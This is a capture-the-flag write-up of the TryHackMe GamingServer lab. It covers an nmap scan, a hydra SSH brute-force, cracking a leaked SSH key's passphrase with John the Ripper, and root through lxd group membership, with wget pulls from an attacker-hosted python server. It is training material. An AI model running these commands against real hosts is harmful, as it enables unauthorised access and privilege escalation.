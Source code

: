 ```yaml
---
permalink: /GamingWriteup.html
---
```


![thumbnail](https://i.imgur.com/lZRim5g.jpg)

## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```
nmap -sC -sV -v -oA gamingserver *machine_ip*
```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```
hydra -l john -P *path to wordlist* *machine_ip* ssh
```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

![Secret Page](https://i.imgur.com/FYrdjNd.png)

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```
chmod 600 SecretKey
```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

<img src=https://i.imgur.com/BoiE8ui.png alt="uploads">

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!.
First i used ssh2john to format the key into something john the ripper can read.

```
/usr/share/john/ssh2john.py SecretKey > keyhash
```
Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```
john keyhash -w=dict.lst
```

Boom! Found it!

<img src=https://i.imgur.com/gvMwN2e.png alt="johhny">

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```
ssh -i SecretKey john@machine_ip
```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

<img src=https://i.imgur.com/QWbXKr5.png alt="ls">

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```
*ATTACKER MACHINE* sudo python3 -m http.server
```

Then we download the script on the victim machine

```
*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh
```
From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

<img src=https://i.imgur.com/ZcRVxi2.png alt="lxd">

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

<img src=https://i.imgur.com/blIf2iY.png alt="root">

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

<img src=https://i.imgur.com/uEVyjAm.png alt="roottx">

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.



